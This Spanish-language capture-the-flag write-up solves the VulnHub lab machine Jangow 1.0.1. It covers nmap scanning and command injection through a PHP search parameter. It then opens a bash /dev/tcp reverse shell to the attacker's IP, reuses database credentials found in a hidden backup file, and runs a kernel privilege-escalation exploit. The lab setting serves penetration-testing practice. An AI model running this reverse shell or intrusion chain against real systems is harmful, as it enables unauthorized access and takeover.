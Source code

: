 ```yaml
---
title: Jangow 1.0.1
date: 2024-07-24
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.154 -n -Pn -v
```

![picture](/assets/images/hackthebox/jangow1.png){: w="600" h="300" }

Vamos a lanzar otro escaneo a los puertos encontrados, pero esta vez, con los parámetros **-sV**, para comprobar las *versiones* de los servicios, y **-sC**, para lanzar una serie de *scripts* predeterminados de *NMAP* con los cuales podremos encontrar cosas interesantes, en el caso que las hubiera.

```bash
nmap -p21,80 -sV -sC 192.168.1.154 -v
```
Ha encontrado una ruta llamada **/site**.

![picture](/assets/images/hackthebox/jangow2.png){: w="600" h="300" }

Una vez dentro de **/site** vemos una página web.

![picture](/assets/images/hackthebox/jangow3.png)

---

## **Explotación**

Si clicamos dentro de la página web en el apartado de "**buscar**", no muestra contenido, pero en la URL nos aparece lo siguiente.

![picture](/assets/images/hackthebox/jangow4.png)

Al ser **"buscar"** un parámetro detras de un archivo **PHP**, y a continuación un signo "**=**", podríamos estar ante un **RCE** (*Remote Code Execution*), probamos a ejecutar comandos, y obtenemos resultado.

![picture](/assets/images/hackthebox/jangow5.png)

A continuación, la idea es obtener una **Reverse Shell**, que es la capacidad de poder obtener una **Shell** en nuestra máquina local y poder ejecutar comandos, para ello, nos pondremos en escucha por un puerto con un **Listener**.

```bash
nc -nlvp 443
```

Y enviaremos desde el navegador la **Reverse Shell**, añadiendo a la *URL* lo siguiente.

```bash
bash -c "bash -i >%26 /dev/tcp/'Nuestra IP'/443 0>%261"
```

Ejecutamos, y estamos dentro de la máquina.

![picture](/assets/images/hackthebox/jangow6.png){: w="600" h="300" }

----

## **Escalada de privilegios**

Buscando por la máquina encuentro en la ruta** /var/www/html** un archivo oculto llamado **.backup**, el cual contiene las *credenciales* de una base de datos de MySQL.

![picture](/assets/images/hackthebox/jangow7.png){: w="600" h="300" }

En la ruta */home* encontramos la carpeta personal del usuario **jangow01**, probamos a migrar a ese usuario con la contraseña encontrada y es correcta.

![picture](/assets/images/hackthebox/jangow8.png)

En la carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/jangow9.png)

Si mostramos la versión del **Kernel** de **Linux**, y buscamos en internet, encontramos la vulnerabilidad [**CVE-2017-16995**](https://www.exploit-db.com/exploits/45010) para poder escalar privilegios.

![picture](/assets/images/hackthebox/jangow10.png)

He intentado descargármela desde el servidor con **Wget**, pero no funciona, para poder cargarlo en el servidor, nos lo descargaremos en la máquina local y lo subiremos mediante **FTP**.

Para poder subirlo, nos tendremos que mover al directorio personal de **jangow01**, ya que el directorio establecido para **FTP** es */var/www* y no nos dejará subir nada ya que en este directorio no tenemos permisos.

![picture](/assets/images/hackthebox/jangow11.png){: w="650" h="350" }

Una vez subido comprobamos en que lenguaje de programación está escrito, y es en **C**, le cambio el nombre y lo compilamos.

![picture](/assets/images/hackthebox/jangow12.png)

Ejecutamos el *exploit*, escalamos privilegios, y podemos leer la segunda **flag**.

![picture](/assets/images/hackthebox/jangow13.png){: w="600" h="300" }


